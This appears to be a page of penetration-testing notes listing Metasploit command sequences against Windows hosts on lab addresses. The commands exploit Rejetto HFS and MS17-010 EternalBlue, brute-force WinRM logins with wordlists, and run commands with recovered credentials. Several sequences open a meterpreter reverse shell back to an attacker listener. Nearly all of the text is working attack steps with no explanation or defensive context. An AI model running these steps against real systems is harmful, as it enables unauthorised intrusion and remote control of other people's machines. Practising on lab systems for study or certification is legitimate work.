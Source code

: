 ```bash
kali@kali> service postgresql start && msfconsole

msf6> setg rhosts 10.3.27.4
msf6> db_nmap -sS -sV -O 10.3.27.4
msf6> search type:exploit name:rejetto
msf6> use 0
msf6> set payload windows/x64/meterpreter/reverse_tcp
msf6> set lhost 10.10.9.2
msf6> run

meterpreter> sysinfo
```

### Windows : MS17-010 SMB (EternalBlue)

```bash
kali@kali> service postgresql start && msfconsole

msf6> workspace -a eternalblue
msf6> db_nmap -sS -sV -O 10.10.10.7
msf6> services

msf6> search type:auxiliary EternalBlue
msf6> use auxiliary/scanner/smb/smb_ms17_010
msf6> set rhosts 10.10.10.7
msf6> run

msf6> search type:exploit EternalBlue
msf6> use exploit/windows/smb/ms17_010_eternalblue
msf6> set rhosts 10.10.10.7
msf6> run

meterpreter> sysinfo
```

### Windows : WinRM

```bash
kali@kali> service postgresql start && msfconsole

msf6> workspace -a winrm
msf6> db_nmap -sS -sV -O 10.3.28.17
msf6> services

msf6> search type:auxiliary name:winrm
msf6> use auxiliary/scanner/winrm/winrm_auth_methods
msf6> run

msf6> use auxiliary/winrm/winrm_login
msf6> set pass_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf6> set user_file /usr/share/metasploit-framework/data/wordlists/common_users.txt

msf6> use auxiliary/scanner/winrm/winrm_cmd
msf6> set username administrator
msf6> set password tinkerbell
msf6> set cmd whoami
msf6> run

msf6> use exploit/windows/winrm/winrm_script_exec
msf6> set password tinkerbell
msf6> set username administrator
msf6> set force_vbs true
msf6> run

```